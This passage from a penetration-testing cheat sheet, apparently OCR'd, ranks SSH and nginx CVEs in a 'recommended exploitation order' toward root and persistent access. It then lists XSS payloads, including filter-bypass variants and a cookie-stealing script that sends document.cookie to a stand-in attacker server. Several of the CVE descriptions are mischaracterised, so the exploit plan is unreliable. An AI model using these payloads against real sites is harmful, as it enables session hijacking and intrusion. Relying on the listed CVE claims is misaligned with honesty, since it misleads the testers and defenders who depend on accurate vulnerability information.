 ```bash
# ├── Research Stage: CVE-2021-23017 (DNS poisoning PoC)
# └── Auxiliary Tools: Version scanners and post-exploitation

# RECOMMENDED EXPLOITATION ORDER:
# 1. SSH Authentication Bypass (CVE-2023-38408) - Immediate root access
# 2. nginx Buffer Overflow (CVE-2022-41741) - If SSH fails
# 3. SSH Privilege Escalation (CVE-2020-15778) - If low-priv access obtained
# 4. nginx DNS Poisoning (CVE-2021-23017) - For persistent access
```

*   **Professional Best Practices:**
    - **Always verify** exploit compatibility with target versions
    - **Test exploits** in controlled lab environments first  
    - **Document findings** with CVSS scores and business impact
    - **Prioritize exploits** by CVSS score and accessibility
    - **Consider exploit chains** for maximum impact
    - **Maintain exploit database** with regular updates

*   **Alternative Resources** (when searchsploit unavailable):
    - **Exploit-DB Online:** https://www.exploit-db.com/
    - **GitHub Exploits:** https://github.com/search?q=CVE-2023-38408
    - **Packet Storm:** https://packetstormsecurity.com/
    - **Metasploit Modules:** search for CVEs in msfconsole
    - **NVD Database:** https://nvd.nist.gov/

---

### **Appendix: Payloads & Cheatsheets**

#### 21. COMMON XSS PAYLOADS

*   **Technique Type:** Payload / Cheatsheet
*   **Description:** An XSS (Cross-Site Scripting) payload is a piece of code, usually JavaScript, that you inject into a website's input field or URL parameter to see if it will execute in a user's browser.
*   **Basic Payloads (for quick checks):**
    *   **Simple Alert:** `<script>alert(1)</script>`
    *   **Alternative Alert:** `<sCrIpt>alert(1)</sCriPt>`
*   **Event Handler Payloads (Bypassing `<script>` filters):**
    *   **Image Error:** `<img src=x onerror=alert(1)>`
    *   **Mouse Events:** `<svg><a MOUSEOVER=alert(1)>`
    *   **Body Onload:** `<body onload=alert(1)>`
*   **Advanced Payloads:**
    *   **Stealing Cookies:** `<script>document.location='http://your-evil-server.com/cookie_stealer.php?c='+document.cookie</script>`
    *   **JavaScript URI Scheme:** `<a href="javascript:alert(1)">Click me</a>`
*   **Important Note on Encoding:** Many web applications will filter or "escape" special characters like `<`, `>`, `"`, and `'`. To bypass this, you often need to URL Encode or HTML Encode your payload.
*   **Pro-Tip:** Use the Decoder module in Burp Suite to easily encode and decode your payloads for testing.
